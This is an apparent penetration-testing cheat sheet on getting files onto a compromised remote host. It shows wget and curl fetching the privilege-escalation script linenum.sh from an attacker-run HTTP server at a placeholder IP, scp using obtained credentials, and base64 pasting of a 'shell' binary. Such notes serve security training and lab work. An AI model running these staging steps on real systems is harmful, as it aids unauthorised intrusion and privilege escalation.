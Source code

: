 # TRANSFERRING FILES
## WGET/CURL
First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it

> cd /tmp
> python3 -m http.server 8000
> wget http://[IP]:[PORT]/linenum.sh

If remote server does not have WGET, we can also use cURL.

> curl http://[IP]:[PORT]/linenum.sh -o linenum.sh

## USING SCP
Granted we have obtained ssh user credentials on the remote host. We can do so as follows:
> scp linenum.sh user@remotehost:/tmp/linenum.sh
> user@remotehost's password: ******

## USING BASE64
In some case we may not be able to transfer the file. In this situations, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it.

> base64 shell -w 0

We can copy the result of this, go to the remote host and decode it.

> user@remotehost$ echo ............. | base64 -d > shell

## VALIDATING FILE TRANSFERS
To validate the format of a file we can run the next command:

> file shell

To ensure we did not mess up the file we can check its md5 hash.

> ownuser@machine$ md5sum shell
> user@remotehost$ md5sum shell

If both files have the same md5 hash, means that the file was correctly transfer.
